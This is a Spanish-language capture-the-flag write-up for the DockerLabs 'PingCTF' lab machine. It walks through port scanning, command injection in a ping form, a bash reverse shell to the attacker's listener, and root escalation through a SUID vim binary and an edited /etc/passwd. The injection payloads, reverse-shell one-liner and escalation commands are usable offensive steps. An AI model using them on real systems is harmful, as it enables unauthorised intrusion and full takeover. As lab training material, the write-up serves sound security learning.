

## DESCARGA Y MONTAJE DE MÁQUINA VICTIMA

Nos dirigimos a la página:


```bash
https://dockerlabs.es/
```

y alli a al enlace de la máquina vulnerable llamada `PingCTF` del autor: `borazuwarah`:

```bash
https://mega.nz/file/jVdVyYYK#Cl7k02bD1IHF6_j1tljf497k4l7uPq2QxzJQvs1tqoY
```


movemos la descarga a la carpeta de trabajo con:

```bash
mv /ruta_a_mi_carpeta_de_trabajo
```
descargamos con un unzip el contenido comprimido con zip:

```bash
unzip PingCTF.zip
```

y ejecutamos este comando para subir la máquina vulnerable

```bash
sudo bash auto_deploy.sh ping_ctf.tar
```


Ya tenemos la direccón de la máquina vulnerable--->`172.17.0.2`


## FASE DE ENUMERACIÓN

Realizaremos un escaneo de los puertos que tiene abiertos la máquina vulnerable, y si los tiene, vamos a ver los servicios que corren en ellos y sus versiones:

```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -v --open 172.17.0.2 -oN puertosYservicios
```


Solamente esta abierto el puerto 80 donde corre http, sin más vamos a lanzar un whatweb por si nos reportara algo:


```bash
whatweb 172.17.0.2 | tee whatweb
```


Solamente sacamos en claro que coore un apache 2.4.58

Con todo esto nos vamos a la página web : `http://172.17.0.2`


## FASE INTRUSIÓN


Vemos un panel, con el cual podemos comprobar la conectividad con una ip, pruebo algunas y no da resultado, asi que pruebo a inyectar un comando con una ip seguida de punto y coma
y un comando:

```bash
127.0.0.1;id
```


Y parece que da resultado:


Vamos a crear una reverse shell y enviarla; en mi caso ejecuto este comando:

```bash
bash -c "bash -i >& /dev/tcp/<TU IP>/<PUERTO EN ESCUCHA> 0>&1"
```

podeis encontrar las reverse shell en:

```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.revshells.com/
```

nos ponemos en nuestra máquina kali a la escucha por el puerto 445:

```bash
sudo nc -lvnp 445
```

e introducimos y ejecutamos en la página web:

```bash
127.0.0.1;bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```


## FASE ESCALADA PRIVILEGIOS

Y estamos dentro


Hacemos un tratamiento de la TTY:

```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 51 columns 237
```

Primero miramos los grupos a los que pertenecemos por si estamos en alguno privilegiado:

```bash
id
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

No estamos en ningun grupo privilegiado

Ahora vamos a mirar si tenemos algún privilegio sudo:


```bash
sudo -l
```

```
bash: sudo: command not found
```

Tampoco.

Buscamos si hay algún SUID:

```bash
find / -perm -4000 2>/dev/null
```
```
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/vim.basic
```

Tenemos este: `/usr/bin/vim.basic`

comprobamos los permisos del binario:

```bash
ls -la /usr/bin/vim.basic
```
```
-rwsr-xr-x 1 root root 4126400 Apr  1 20:12 /usr/bin/vim.basic
```
efectivamente tenemos el bit SUID mostrado por la `s`

Nos vamos a la página:

```bash
https://gtfobins.github.io/
```
e introducimos `vim` en el buscador y nos vamos a la pestaá SUID:

```bash
https://gtfobins.github.io/gtfobins/vim/#suid
```

presto atención a esta parte:

```
This requires that vim is compiled with Python support. Prepend :py3 for Python 3.
```

compruebo en la máquina victima que python tiene:

```
www-data@141fbbd9ad91:/var/www/html$ which python
www-data@141fbbd9ad91:/var/www/html$ which python3
/usr/bin/python3
```
disponemos de python3, vamos a ejecutar lo que nos dice gtfobins adecuado a nuestro binario quedando así:

```bash 
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

cuando termine de salir todo presionamos enter y ya somos root

```bash
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# 
```

hay otra forma de hacerlo, que es abriendo un archivo y sobreescribirlo, por ejemplo:

```bash
/usr/bin/vim.basic /etc/passwd
```


cuando nos abre el archivo concretamente nos vamos a esta linea:
```
root:x:0:0:root:/root:/bin/bash
```

y quitamos la `x` para así hacer que la contraseña de root no apunte al /etc/shadow y entre sin contraseña, quedando así:

```
root::0:0:root:/root:/bin/bash
```

para hacerlo ponemos el cursos sobre la letra `x` y damos a la tecla `x` de nuestro teclado y eliminará la letra quedando así:




Ahora tenemos que forzar el guardado del archivo y esto lo hacemos

```
:w!
```


en la parte de abajo nos aparecerá

```
"/etc/passwd" 19L, 887B written
```
que nos indica que ha sido modificado y salimos de vim:

```bash
:q
```

comprobamos si ha guardado bien los cambios:


```bash
cat /etc/passwd
```
```
root::0:0:root:/root:/bin/bash  <-------------- se ha guardado el cambio
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
```

ahora vamos a cambiar al usuario root que no tiene contraseña:

```bash
su root
```
```
root@141fbbd9ad91:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)

```

Y hasta aquí esta máquina.
